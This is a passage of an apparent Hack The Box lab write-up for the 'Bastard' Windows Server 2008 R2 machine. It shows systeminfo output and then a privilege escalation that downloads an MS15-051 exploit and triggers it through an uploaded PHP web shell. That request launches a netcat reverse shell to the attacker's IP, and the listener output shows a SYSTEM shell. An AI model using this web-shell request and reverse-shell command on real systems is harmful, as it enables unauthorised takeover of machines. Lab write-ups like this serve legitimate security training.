 ```text
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.590 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.618 MB
Virtual Memory: In Use:    477 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

## Privilege Escalation

We have a base install of Server 2008R2, which means it's vulnerable to [MS015-51](https://www.exploit-db.com/exploits/37049), grab a version from GitHub:

```text
root@kali:~/htb/bastard# wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
```

Close first shell and browse to uploaded php file again, but this time use the MS15-51 exploit to launch my shell, which connects me as root:

```text
http://10.10.10.9/test.php?cmd=\\10.10.14.34\share\ms15-051x64.exe%20%22\\10.10.14.34\share\nc64.exe%20-e%20cmd.exe%2010.10.14.34%20443%22
```

Have an NC waiting, and we see the connection as system:

```text
root@kali:~/htb/bastard# rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.9] 49275
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```

## Root Flag
